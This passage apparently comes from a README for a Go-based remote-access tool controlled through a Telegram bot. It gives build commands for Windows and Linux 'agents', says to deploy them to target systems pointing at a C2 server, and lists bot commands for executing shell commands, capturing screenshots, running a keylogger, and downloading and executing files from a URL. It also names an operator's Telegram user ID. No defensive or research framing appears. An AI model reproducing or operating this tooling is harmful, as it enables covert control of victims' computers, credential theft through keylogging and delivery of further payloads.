 ```bash
# Build Windows agent
GOOS=windows GOARCH=amd64 go build -o agent.exe ./agent/

# Build Linux agent  
GOOS=linux GOARCH=amd64 go build -o agent ./agent/

# Deploy to target systems
./agent.exe                           # Windows
./agent http://your-c2-server:8080    # Custom C2 URL
```

## 🎮 **Telegram Bot Commands**

Once your bot is running, message it from user ID `7991166259`:

### 📊 **Agent Management**
```
/agents                    # List all registered agents
/select <agent_id>         # Select agent for operations  
/health                    # Show C2 server health status
```

### ⚡ **Agent Operations**
```
/shell <command>           # Execute shell command
/screenshot               # Capture screen
/keylog <seconds>         # Start keylogger for N seconds
/upload <url>             # Download & execute file
/terminate                # Terminate selected agent
```

### 📈 **System Commands**
```
/help                     # Show command menu
/start                    # Welcome message
```

### 🔍 **Example Usage**

```
/agents                           # List agents
/select a1b2c3d4                 # Select agent by ID
/shell whoami                    # Get current user
/shell dir C:\                   # List directory
/screenshot                      # Take screenshot
/keylog 60                       # Keylog for 60 seconds
/shell ipconfig /all             # Network configuration
```

## 🛠️ **Configuration**
